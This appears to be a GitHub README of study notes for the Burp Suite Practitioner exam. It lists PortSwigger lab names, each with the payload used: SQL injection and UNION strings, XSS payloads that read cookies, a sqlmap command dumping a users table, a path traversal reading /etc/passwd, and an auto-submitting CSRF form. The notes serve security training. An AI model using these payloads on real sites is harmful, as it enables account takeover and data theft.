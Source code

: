 # Burp-Suite-Practitioner

## Useful Links:

1)https://portswigger.net/web-security/authentication/auth-lab-usernames ~ username wordlist

2)https://portswigger.net/web-security/authentication/auth-lab-passwords ~ password wordlist

3)https://github.com/frohoff/ysoserial ~ Java deserialization payload generator

4)https://github.com/PortSwigger/http-request-smuggler - HTTP request smuggler

5)https://portswigger.net/web-security/cross-site-scripting/cheat-sheet ~ PortSwigger XSS cheat sheet

6)https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md ~ XSS cheat sheet

7)https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-xss ~ DOM XSS
## Labs

1)_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data_
  
  Payload used:
  
  ' OR 1=1 --

2)_Reflected XSS into HTML context with nothing encoded_
  
  Payload used:
  
  <script>alert(1)</script>

3)_Stored XSS into HTML context with nothing encoded_
  
  Payload used:

  <script>alert(1)</script>

4)_DOM XSS in document.write sink using source location.search_
  
  Payload used:
  
  <img src=x onerror=alert(1)>
 
 5)_DOM XSS in innerHTML sink using source location.search_
 
  Payload used:
 
  <img src=x onerror=alert(1)>
  
 6)_DOM XSS in jQuery anchor href attribute sink using location.search source_
  
  Payload used:
 
  javascript:alert(document.cookie)
  
 7)_SQL injection UNION attack, retrieving data from other tables_
 
  Payload used:
  
  sqlmap -u https://0a6200cf04ebbed9c2d465d1009a00f2.web-security-academy.net/filter?category=* --batch -D public -T users --dump
  
 8)_SQL injection vulnerability allowing login bypass_
 
 Payload used:
 
 ' OR 1=1 --
 
 9)SQL injection UNION attack, determining the number of columns returned by the query
 
 Payload used:
 
 %27+UNION+SELECT+NULL,+NULL,+NULL--
 
 10)File path traversal, simple case
 
 Payload used:
 
 /image?filename=../../../etc/passwd
 
 11)CSRF vulnerability with no defenses
 
 Payload used:
 
 <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0af3002703625819c1842eae009e002f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="evil@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
